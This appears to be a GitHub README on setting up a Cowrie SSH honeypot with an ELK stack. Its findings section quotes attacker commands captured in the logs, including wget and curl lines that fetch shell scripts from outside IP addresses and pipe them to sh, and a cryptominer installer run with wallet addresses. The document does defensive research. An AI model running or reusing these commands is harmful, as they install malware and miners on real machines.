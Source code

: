 # custom cowrie installation with ELK stack

Installation based on:

https://github.com/cowrie/cowrie

"Cowrie is a medium to high interaction SSH and Telnet honeypot designed to log brute force attacks and the shell interaction performed by the attacker. In medium interaction mode (shell) it emulates a UNIX system in Python, in high interaction mode (proxy) it functions as an SSH and telnet proxy to observe attacker behavior to another system."

This repo shows the custom configuration I used to setup the "ELK Stack" (Elasticsearch, Logstash and Kibana = ELK) together with Cowrie, since some steps were not covered by the official documentation.

Access to the ELK stack was realized by ssh port forwarding local ports.

## installation steps for ELK stack not covered by tutorial

original instructions:

https://cowrie.readthedocs.io/en/latest/elk/README.html

nginx was not needed, since only ssh port forwarding was used to access kibana!

### jvm configurations

jvm specs had to be reduced to work on a "weak" machine, see configs, e.g. in the [jvm.options](etc/logstash/jvm.options) file and the 
[reduceram.options](etc/elasticsearch/jvm.options.d/reduceram.options) file,
e.g. only using

```
-Xms512m
-Xmx512m
```

### ufw (uncomplicated firewall)

to avoid accidentally serving any misconfigured ports, ufw was used to protect the machine running Cowrie and the ELK stack.

allow the "fake" ssh port and "fake" telnet port served by cowrie (don't forget to also add your real ssh port - do not lock yourself out of your server)
```
apt update && apt upgrade -y && apt install -y ufw && \
ufw allow 22/tcp  && \
ufw allow 23/tcp  && \
ufw enable 
```

### give correct rights to logstash

for logstash to work correctly, the following commands should be used:

```
mkdir /usr/share/logstash/logs && \
chown logstash:logstash /usr/share/logstash/logs && \
mkdir /usr/share/logstash/data && \
chown logstash:logstash /usr/share/logstash/data
```

### start services

```service elasticsearch start; service logstash start; service filebeat start; service kibana start```

### stop services

```service elasticsearch stop; service logstash stop; service filebeat stop; service kibana stop```

### make Cowrie resemble Raspberry Pi at login

[cowrie.cfg](home/cowrie/cowrie/etc/cowrie.cfg) shows which settings were used to resemble a Raspberry Pi ssh banner.

[userdb.txt](home/cowrie/cowrie/etc/userdb.txt) is also showing the used default Raspberry Pi login credentials.

### start cowrie as user cowrie and watch logs every 10 seconds

```
sudo su - cowrie
/home/cowrie/cowrie/bin/cowrie start
watch -n 10 tail /home/cowrie/cowrie/var/log/cowrie/cowrie.json
```

when the rest of the original instructions were followed, you could see the log data of Cowrie visualized in Kibana.

## Some interesting findings while using cowrie

If one looks at the logs of what bots tried to run after a successfull login via ssh, one can see, that most try to install some crypto miners (like shown in most of the honeypot research papers), e.g. for monero.

Some examplary commands, resulting from running ```grep -r "cowrie.command.input" | cut -d ':' -f2- | jq .input | tr -d '"'``` on all the json-log files, which searches for all events where something/someone logged in entered a command into Cowrie:

```
uname -a
cat /proc/cpuinfo
ps | grep '[Mm]iner'
ps -ef | grep '[Mm]iner'
ls -la /dev/ttyGSM* /dev/ttyUSB-mod* /var/spool/sms/* /var/log/smsd.log /etc/smsd.conf* /usr/bin/qmuxd /var/qmux_connect_socket /etc/config/simman /dev/modem* /var/config/sms/*
echo Hi | cat -n
wget -qO - http://71.127.148.69/.x/1sh | sh > /dev/null 2>&1 &
rm -rf /var/run/1sh; wget -c http://71.127.148.69/.x/1sh -P /var/run && sh /var/run/1sh &
wget -qO - http://71.127.148.69/.x/2sh | sh > /dev/null 2>&1 &
rm -rf /tmp/2sh; wget -c http://71.127.148.69/.x/2sh -P /tmp && sh /tmp/2sh &
curl http://71.127.148.69/.x/3sh | sh
cd /var/run ; rm -rf tsh ; tftp -g 127.0.0.1 -r tsh ; sh tsh &
```

Interesting here is e.g. the 4th and 5th command, where apparently the script checks if there is already a running process which contains the name "Miner" or "miner".


Another result, going in the same direction: ```grep -r "cowrie.command.input" | cut -d ':' -f2- | jq .input | tr -d '"' | grep -i miner```

```
uname -a; cd /tmp; curl -s -L http://download.c3pool.org/xmrig_setup/raw/master/setup_c3pool_miner.sh | LC_ALL=en_US.UTF-8 bash -s 492cUvVMbMsKpWGoSkTSbzix9Pk2Ho6XUid9vRSFALXjfQS76gyNGjnTh6DTpPHwnBAHDztwbWUGiCfZgkbndYtAMuekPcA; wget http://179.43.175.170/putkite/quickr1n.sh; curl -O http://179.43.175.170/putkite/quickr1n.sh; chmod 777 *; sh quickr1n.sh; echo storytimeDedicated
curl -s -L http://download.c3pool.com/xmrig_setup/raw/master/setup_c3pool_miner.sh | LC_ALL=en_US.UTF-8 bash -s 45dNkjTQGgT77r9AEMyHdCGan5tpuekXaHFhFW99dQ8hUS35oZQEYXddFE52jxVdfUNrAD4ZyZ44BgHfgk5SjHdoLjGdJnQ
```

Since also the downloaded files are saved by Cowrie, one can see, that some are shell scripts, but some are also binary executables:

Result of ```find ./ -type f -exec sh -c "file --brief {}" \;``` in the folder containing the Cowrie downloads:

```
data
ASCII text, with CRLF line terminators
data
empty
data
data
data
OpenSSH RSA public key
data
data
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
data
data
ASCII text
ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, stripped
data
data
ASCII text
ASCII text
data
ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, stripped
```
Where "data" and "ASCII" text are scripts or shell commands.


Also, the following well known Raspi malware was seen in the Downloads:

https://www.virustotal.com/gui/file/6d1fe6ab3cd04ca5d1ab790339ee2b6577553bc042af3b7587ece0c195267c9b/community
